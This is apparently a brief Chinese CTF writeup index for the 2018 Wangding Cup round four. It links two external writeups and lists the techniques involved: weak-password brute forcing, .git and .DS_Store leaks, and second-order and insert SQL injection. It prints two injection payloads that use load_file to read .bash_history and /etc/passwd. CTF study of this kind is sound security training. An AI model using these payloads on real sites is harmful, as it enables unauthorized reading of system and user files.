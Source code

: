 # WP
[【2018年 网鼎杯CTF 第四场】部分题目WP - 先知社区](https://xz.aliyun.com/t/2667)<br />[网鼎杯 第四场 部分WriteUp](https://mp.weixin.qq.com/s?__biz=MzIzMTc1MjExOQ==&mid=2247485187&idx=1&sn=e2b2051337ecbd8510bb85a1d4302a0c&chksm=e89e2fdbdfe9a6cdcae64bd9ef0458468cd91774ec5f00296499a36ebd00ebc19190116b6ea9&mpshare=1&scene=1&srcid=0830ESdKieMYn8MgJ75vMzuw#rd)
# 知识点
弱口令爆破<br />.git信息泄露<br />sql二次注入，insert注入，sql多行注入，hex(load_file("/etc/passwd"))读取文件
```http
payload1：
?category=',content=(select load_file(‘//home/www/.bash_history')),/*&content=*/#

payload2:
category=', content=(select load_file('/etc/passwd'), bo_id='1' ON DUPLICATE KEY UPDATE category='&content=1
```
读取.bash_histoy获取用户输入命令<br />.DS_Store文件泄露查看网址结构

